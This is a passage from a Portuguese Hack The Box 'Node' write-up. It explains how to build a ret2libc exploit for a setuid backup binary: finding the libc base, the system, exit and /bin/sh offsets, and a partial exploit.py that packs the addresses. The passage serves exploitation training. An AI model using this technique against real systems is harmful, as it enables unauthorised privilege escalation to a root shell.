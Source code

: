 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_gdb6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_gdb7.png)

Pronto, sabemos onde é o ponto exato, agora podemos iniciar a montagem do nosso exploit

Primeira coisa é saber qual vai ser o endereço de base da libc, pra isso é aquele comando do ldd, pode ser qualquer um dos que aparece, pois sabemos que ela não varia taaaanto assim, uma hora vai cair denovo nesse endereço

`ldd /usr/local/bin/backup | grep libc.so.6`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_exp.png)

exploit.py
```
from subprocess import call
import struct

libc_base_addr = 0xf7538000
```

Próximo passo agora é nós montarmos a estrutura dele... o que queremos que ele faça? Execute a chamada system(), com um bin/sh e depois saia, certo? Então vamos pegar esses endereços na libc pra poder executar

Primeiro vamos pegar o endereço da chamada system() 

`readelf -s /lib32/libc.so.6 | grep system`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_exp1.png)

Agora vamos pegar o endereço da string /bin/sh na libc também

`strings -a -t x /lib32/libc.so.6 | grep /bin/sh`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_exp2.png)

Agora vamos pegar a exit, pq não queremos que o programa saia tudo cagado ou de crash

`readelf -s /lib32/libc.so.6 | grep exit`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_exp3.png)

Pronto, temos os 3 endereços que vamos utilizar, agora jogamos ele para dentro do nosso exploit

Bom, agora o que vamos fazer? A ideia aqui é fazer com que o endereço base da libc seja adicionado nos endereços extraidos, sim isso mesmo, os endereços de memória são carregados a partir da libc, o script vai fazer a soma, depois vamos tentar fazer de forma manual e direto, na linha de comando, mas pra um melhor entendimento vamos fazer assim por enquanto. E o que é esse *struct.pack*? Isso faz parte da biblioteca do python chamada struct, que é utilizada para esse tipo de exploração. o `"<I"` sinaliza que é little endian, ai vem a libc base mais o endereço de memória que queremos que seja executado

exploit.py
```
from subprocess import call
import struct

libc_base_addr = 0xf7538000

system_off      = 0x0003a940
exit_off        = 0x0002e7d0
arg_off         = 0x0015900b

system_addr = struct.pack("<I",libc_base_addr+system_off)
exit_addr = struct.pack("<I",libc_base_addr+exit_off)
arg_addr = struct.pack("<I",libc_base_addr+arg_off)
```
